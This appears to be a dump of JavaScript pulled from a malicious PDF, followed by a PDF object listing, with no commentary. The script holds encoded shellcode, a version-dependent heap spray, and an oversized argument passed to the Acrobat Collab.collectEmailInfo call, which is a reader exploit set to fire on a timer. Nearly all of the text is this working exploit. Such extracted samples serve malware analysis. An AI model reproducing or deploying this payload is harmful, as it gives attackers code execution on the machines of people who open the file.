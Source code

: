 ```bash
 b'function re(count,what) \r\n{\r\nvar v = "";\r\nwhile (--count >= 0) \r\nv += what;\r\nreturn v;\r\n} \r\nfunction sopen() \r\n{\r\nsc = unescape("%uc933%ub966%u017c%u1beb%u565e%ufe8b%u66ac%u612d%u6600%ue0c1%u6604%ud08b%u2cac%u6661%uc203%u49aa%uea75%ue8c3%uffe0%uffff%u6666%u6c59%u6d5f%u6459%u6d5f%u6d66%u6466%u6766%u6866%u685d%u6665%u6160%u6262%u6161%u6161%u6161%u6a5f%u6f62%u6261%u6161%u6161%u7059%u6665%u6d60%u6567%u625b%u6164%u6161%u6161%u6161%u6c59%u6165%u6d61%u6c59%u6168%u6d62%u6e5b%u6c59%u6966%u6961%u6a59%u6e66%u6d5f%u6c59%u6e65%u6160%u6c59%u6e68%u6d60%u6266%u6c59%u6665%u6d5f%u6c59%u6168%u6d64%u6c59%u6568%u6761%u6968%u6461%u6160%u6766%u6c59%u6768%u6163%u6461%u6160%u6464%u6a5d%u6a65%u6265%u6e5b%u6461%u6665%u6d5f%u6464%u6c5e%u7061%u6f5c%u6162%u6b64%u675e%u6568%u6961%u625d%u6c5d%u6e61%u6461%u6b5e%u6165%u6c5f%u6260%u6c64%u7062%u6668%u675f%u6f66%u6c59%u6f66%u6563%u6461%u6e66%u6d5f%u6767%u6c59%u6d61%u6c65%u6c59%u6f66%u6d62%u6461%u6e66%u6d5f%u6c59%u6561%u6c59%u6461%u6665%u6d5f%u6c5b%u6a66%u635f%u665c%u6464%u615d%u6a59%u6665%u695f%u6a59%u6665%u655f%u6459%u6665%u655f%u6561%u6b67%u6161%u6c59%u6665%u655f%u6166%u6c59%u6e65%u6d60%u7060%u6266%u6162%u6a59%u6665%u6560%u6459%u6e68%u6560%u7060%u6568%u6e67%u6259%u6e68%u6560%u6161%u6163%u6161%u6161%u6e68%u6361%u6c5f%u6367%u6b67%u6165%u6967%u6161%u6162%u6161%u6161%u6c59%u6666%u6560%u6366%u6b67%u6161%u6c59%u6665%u6d60%u7060%u6166%u6564%u6a59%u6665%u6960%u6b67%u6161%u6b67%u6161%u6b67%u6161%u6c59%u6e65%u655f%u6266%u6c59%u6666%u6d60%u7060%u6366%u6164%u6b67%u6161%u6e59%u6665%u695f%u6166%u6c59%u6e65%u6560%u6266%u6c59%u6666%u6960%u6366%u6c59%u6665%u655f%u6166%u6c59%u6e65%u6d60%u7060%u6266%u6d63%u6c59%u6666%u6960%u6461%u6666%u6560%u6259%u6b68%u6d60%u6667%u7067%u6767%u6b61%u6668%u6361%u6c5f%u6163%u6967%u6161%u6159%u6161%u6161%u6c59%u6665%u6560%u6166%u6c59%u6e65%u6960%u6266%u6c59%u6666%u6d60%u7060%u6366%u6964%u695c%u6261%u6161%u6161%u6161%u6659%u615d%u7061%u6659%u6e67%u7060%u7060%u7060%u6c59%u6668%u6960%u6464%u6a5d%u6265%u6259%u6d64%u6f61%u6667%u7067%u6767%u6b61%u6668%u6760%u6459%u625d%u6561%u6461%u6260%u7060%u6668%u6d60%u7060%u6668%u655f%u7060%u675e%u695f%u6e5e%u6f60%u7060%u7060%u6c60%u685a%u6e60%u7061%u665b%u6862%u6161%u6d68%u6368%u6f60%u645c%u6762%u6f68%u695e%u635f%u6468%u6e5b%u6c5a%u6e68%u705e%u6768%u6e67%u615c%u6665%u6964%u6363%u6d5b%u685f%u6464%u6b5d%u6b59%u6c66%u6f59%u6f65%u6f61%u6d5f%u6b60%u685a%u6361%u6d65%u6760%u6b5f%u6b5c%u6d66%u6762%u6667%u6b60%u6162%u6d5b%u6961%u6b5e%u6768%u6566%u6b5d%u705b%u625a%u6d5b%u6464%u6761%u6461%u695a%u6f60%u6b59%u6f61%u7062%u6a68%u6b61%u695f");\r\nif (app.viewerVersion >= 7.0)\r\n{\r\nplin = re(1124,unescape("%u0b0b%u0028%u06eb%u06eb")) + unescape("%u0b0b%u0028%u0aeb%u0aeb") + unescape("%uFCFC%uFCFC") + re(120,unescape("%u0b0b%u0028%u06eb%u06eb")) + unescape("%uFCFC%uFCFC") + sc + re(1256,unescape("%u6161%u6161"));\r\n} \r\nelse \r\n{\r\nef6 =  unescape("%uf6eb%uf6eb") + unescape("%u0b0b%u0019");\r\nplin = re(80,unescape("%uFCFC%uFCFC")) + sc + re(80,unescape("%uFCFC%uFCFC"))+ unescape("%u17e9%ufffb")+unescape("%uffff%uffff") + unescape("%uf6eb%uf4eb") + unescape("%uf2eb%uf1eb");\r\nwhile ((plin.length % 8) != 0) \r\nplin = unescape("%u6161") + plin;\r\nplin += re(2626,ef6);\r\n}\r\nif (app.viewerVersion >= 6.0)\r\n{\r\nthis.collabStore = Collab.collectEmailInfo({subj: "",msg: plin});\r\n}\r\n}\r\nvar shaft = app.setTimeOut("sopen()",1200);'

obj 31 0
 Type:
 Referencing: 30 0 R
 Contains stream

  <<
    /Length 30 0 R
    /Filter [/FlateDecode]
  >>

```